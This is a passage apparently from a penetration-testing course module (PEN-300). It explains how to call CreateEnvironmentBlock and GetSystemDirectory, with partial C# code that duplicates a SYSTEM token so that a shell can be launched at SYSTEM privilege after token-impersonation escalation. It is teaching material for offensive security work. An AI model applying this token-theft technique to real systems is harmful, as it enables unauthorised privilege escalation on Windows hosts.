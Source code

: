 Second, the _lpCurrentDirectory_ argument, which specifies the initial drive and working directory for our shell, also needs to be specified for the same reasons as explained above.

We can generate the values for these parameters with the _CreateEnvironmentBlock_[2](https://portal.offsec.com/courses/pen-300-9502/learning/combining-the-pieces-14687/combining-the-pieces-14955#fn-local_id_743-2) and _GetSystemDirectory_[3](https://portal.offsec.com/courses/pen-300-9502/learning/combining-the-pieces-14687/combining-the-pieces-14955#fn-local_id_743-3) APIs, respectively.

The function prototype for _CreateEnvironmentBlock_ is shown in Listing 23.

```
BOOL CreateEnvironmentBlock(
  LPVOID *lpEnvironment,
  HANDLE hToken,
  BOOL   bInherit
);
```

> Listing 23 - Function prototype for CreateEnvironmentBlock

_CreateEnvironmentBlock_ accepts three parameters. The first is _\*lpEnvironment_, which is an output pointer to the created environment block. The second argument (_hToken_) is the user token. In our case, this is the SYSTEM token after the successful privilege escalation. The third (_bInherit_) is a flag to signal whether to inherit from the current process' environment. As the current process does not have an environment, we must set it to false.

The function prototype for _GetSystemDirectory_ shown in Listing 24 is even simpler.

```
UINT GetSystemDirectoryW(
  LPWSTR lpBuffer,
  UINT   uSize
);
```

> Listing 24 - Function prototype for GetSystemDirectoryW

_GetSystemDirectory_ accepts a string buffer (_lpBuffer_) that will be populated with the system directory along with the maximum allowed size (_uSize_) of the string.

Listing 25 shows the code for the DllImport statements taken from pinvoke.net[4](https://portal.offsec.com/courses/pen-300-9502/learning/combining-the-pieces-14687/combining-the-pieces-14955#fn-local_id_743-4),[5](https://portal.offsec.com/courses/pen-300-9502/learning/combining-the-pieces-14687/combining-the-pieces-14955#fn-local_id_743-5) along with their implementation in the code.

```
using System.Security.Principal;
...
[DllImport("advapi32.dll", SetLastError = true)]
static extern bool RevertToSelf();

[DllImport("kernel32.dll")]
static extern uint GetSystemDirectory([Out] StringBuilder lpBuffer, uint uSize);

[DllImport("userenv.dll", SetLastError = true)]
static extern bool CreateEnvironmentBlock(out IntPtr lpEnvironment, IntPtr hToken, bool bInherit);

static void Main(string[] args)
{
...
  OpenThreadToken(GetCurrentThread(), 0xF01FF, false, out hToken);
  DuplicateTokenEx(hToken, 0xF01FF, IntPtr.Zero, 2, 1, out hSystemToken);
  
  StringBuilder sbSystemDir = new StringBuilder(256);
  uint res1 = GetSystemDirectory(sbSystemDir, 256);
  IntPtr env = IntPtr.Zero;
  bool res = CreateEnvironmentBlock(out env, hSystemToken, false);
  
  String name = WindowsIdentity.GetCurrent().Name;
```